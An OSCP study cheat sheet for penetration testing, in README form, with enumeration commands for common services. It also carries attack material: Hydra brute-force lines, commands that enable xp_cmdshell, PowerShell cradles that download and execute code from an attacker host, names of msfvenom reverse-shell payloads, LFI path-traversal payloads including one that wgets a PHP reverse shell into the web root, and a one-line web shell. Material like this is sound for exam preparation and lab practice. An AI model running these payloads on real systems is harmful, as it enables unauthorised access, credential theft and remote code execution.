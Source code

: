 # OSCP-NOTES
## Enumeration
1. Ports
```
port 21 — FTP (File Transfer Protocol)
port 22 — SSH (Secure Shell)
port 23 — Telnet
port 25 — SMTP (Simple Mail Transfer Protocol)
port 53 — DNS (Domain Name System)
port 443 — HTTP (Hypertext Transport Protocol) and HTTPS (HTTP over SSL)
port 110 — POP3 (Post Office Protocol version 3)
port 135 — Windows RPC
ports 137–139 — Windows NetBIOS over TCP/IP
port 1433 and UDP port 1434 — Microsoft SQL Server
```
* Port 21 FTP
```
ftp <ip>
nc <ip> 21
```
* Port 22 SSH
```
nc -w <ip> 22
```
* Port 25 SMTP
```
nc -w <ip> 25
telnet <ip> 25
* VRFY <user>
```
* Port 53
```
nslookup
*server <ip>
*<ip>
dig axfr <domain_name> @<ip> 
```
* Port 110 POP3
```
telnet <ip> 110
* USER <username>
* PASS <password>
* list #list mails
* retr #cd
```
* Port 139 & 445 SMB
```
#check list
smbclient -L <ip>
enum4linux -a <ip>
smbmap -H <ip>
#Login
smbclient //<ip>/<filename> -U <username>
```
* Port 1433 MsSQL
```
sqsh -S <ip> -U <username> or sqsh -S <ip> -U <username> -P "<password>"
* 1> EXEC SP_CONFIGURE N'show advanced options', 1
* 2> go
Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
(return status = 0)
* 1> EXEC SP_CONFIGURE N'xp_cmdshell', 1
* 2> go
Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
(return status = 0)
* 1> RECONFIGURE
* 2> go
* 1> xp_cmdshell 'dir C:\';
* 2> go
```
* SSH login
```
ssh <username@ip> 
```
* Password Decrypt
  * Decode Base64 Encoded Values
  ```
  echo -n "QWxhZGRpbjpvcGVuIHNlc2FtZQ==" | base64 --decode
  ```
  * Decode Hexidecimal Encoded Values
  ```
  echo -n "46 4c 34 36 5f 33 3a 32 396472796 63637756 8656874" | xxd -r -ps
  ```
  * GPP Password
  ```
  gpp-decrypt <code>
  ```
  * Hydra
  ```
  hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV <ip> ftp
  hydra -v -V -u -L users.txt -P /usr/share/wordlists/rockyou.txt -t 1 -u <ip> ssh
  hydra -l admin -P /usr/share/wordlists/rockyou.txt <ip> -V http-form-post "/login.php:<request>:<wrong_message>''"
  ```
* Send a file using netcat
  * send    
  ```
  nc -nlvp <ip> < <filename>
  ```
  * receive 
  ```
  nc -w 3 <ip> > <outputfilename>
  ```
* Brute Force
  * ssh
  ```
  hydra -l <user.txt> -p <pass.txt> <ip> ssh
  ```
  * telnet
  ```
  hydra -l root -P <password.txt> <ip> telnet
  ```
 * Powershell Download
 ```
 powershell -c "(new-object System.Net.WebClient).DownloadFile('http://<LHOSTIP>/<filename>', '<Location\filename>')"
 powershell -c CreateObject("WScript.Shell").Exec("cmd /c powershell IEX(New-Object Net.WebClient).DownloadString('http://<LHOSTIP>/<filename>')")
 powershell -c "Invoke-WebRequest -Uri <LHOSTIP>/<filename> -Outfile <Location\filename>"
 ```
 * Msfvenom
 ```
 windows/shell/reverse_tcp 
 windows/x64/shell/reverse_tcp
 ------------------------------->exe,asp,aspx
 linux/x86/shell/reverse_tcp
 linux/x64/shell/reverse_tcp
 ------------------------------->elf
 java/jsp_shell_reverse_tcp > war,jsp
 php/reverse_php > php
 ```
* LFI
```
/etc/passwd
/etc/passwd%00 # null byte terminate
../../../../../../etc/passwd%00 # directory traversal
php://filter/convert.base64-encode/resource=/etc/php5/apache2/php.ini%00 
expect://whoami # expect wrapper, direct code execution, not enabled by default
php://input # php code execution, send php code in POST data `<? system('wget http://192.168.183.129/php-reverse-shell.php -O /var/www/shell.php');?>`
/proc/self/environ # if readable, write php code in "User Agent" data, and it'll appear within environ
/proc/self/fd/0 # if readable, write php code in "referer" data, and it'll appear within file descriptor. make sure to brute force the fd number 0-10+
/var/lib/php/session s
/tmp/ 
```
* RFI
```
<?php echo shell_exec($_GET['cmd']);?>
```
